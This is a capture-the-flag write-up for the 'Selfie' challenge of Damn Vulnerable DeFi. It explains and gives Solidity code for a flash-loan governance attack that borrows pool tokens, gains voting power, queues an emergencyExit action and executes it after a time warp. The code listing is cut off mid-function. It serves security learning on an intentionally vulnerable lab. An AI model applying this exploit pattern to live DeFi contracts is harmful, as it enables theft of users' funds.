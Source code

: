 #### Task: 

A new lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

Rescue all funds from the pool and deposit them into the designated recovery account.

#### Solution Explanation:

The lending pool uses a governance model that allows any entity holding more than half of the total DVT supply to propose and execute actions after a delay. A flash loan enables us to temporarily borrow a large number of tokens, which can be used to influence the governance and propose actions, like withdrawing all funds abusing the system’s delay mechanism.


So the strategy is to take a flash loan from the pool for the maximum available DVT token -> to delegate the borrowed tokens to gain voting power -> using this voting power to propose an emergency exit action that transfers all funds to the recovery account -> wait for the governance action delay to pass, and execute the emergency exit, transferring all funds to the recovery account.

```solidity

    function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata data)
        external
        returns (bytes32)
    {
        DVT.delegate(address(this));
        governance.queueAction(address(pool), 0, data);
        DVT.approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function test_selfie() public checkSolvedByPlayer {
        FlashLoanReceiver reciever = new FlashLoanReceiver(pool, token, governance);
        bytes memory EmergencyExitCallData = abi.encodeWithSignature(
            "emergencyExit(address)", 
            recovery
        );    
        pool.flashLoan(reciever, address(token), TOKENS_IN_POOL, EmergencyExitCallData);

        vm.warp(block.timestamp + 3 days);
        governance.executeAction(1); 
    }

```


<details>
  <summary> Code </summary>

  ```solidity

contract FlashLoanReceiver is IERC3156FlashBorrower {
    SelfiePool private pool;
    DamnValuableVotes private DVT;
    SimpleGovernance private governance;

    constructor(SelfiePool _pool, DamnValuableVotes _token, SimpleGovernance _governance) {
        pool = _pool;
        DVT = _token;
        governance = _governance;
    }

    function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata data)
        external
  ```